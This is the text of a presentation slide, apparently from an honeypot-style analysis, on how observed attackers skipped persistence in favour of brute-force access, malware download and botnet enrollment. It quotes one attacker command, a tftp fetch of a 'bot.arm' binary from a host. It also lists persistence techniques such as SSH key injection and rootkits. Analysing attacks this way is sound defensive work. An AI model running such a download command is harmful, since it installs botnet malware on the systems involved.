

Attacker persistence mechanisms
Quick Actions Preferred: Attackers predominantly favored immediate actions over establishing long-term persistence, focusing on rapid malware deployment and proxy chaining.
No Advanced Persistence: Analysis revealed no evidence of sophisticated persistence techniques like SSH key injection, scheduled tasks (cronjobs), or account creation typically associated with APT actors.
Short-Lived Sessions: Attack sessions were predominantly brief (rather quickly), consistent with automated campaigns targeting numerous systems simultaneously.

Observed: quick exploitation
Expected but not Observed:  persistence
Brute-force access
Immediate malware download  'wget'   'curl'
Establish proxy/botnet connection
tftp -g -r bot.arm 192.168.1.100
Disconnect without persistence setup

SSH key injection for backdoor access
Creation of scheduled tasks (cronjob)
Addition of privileged user accounts
Rootkit or kernel module installation

14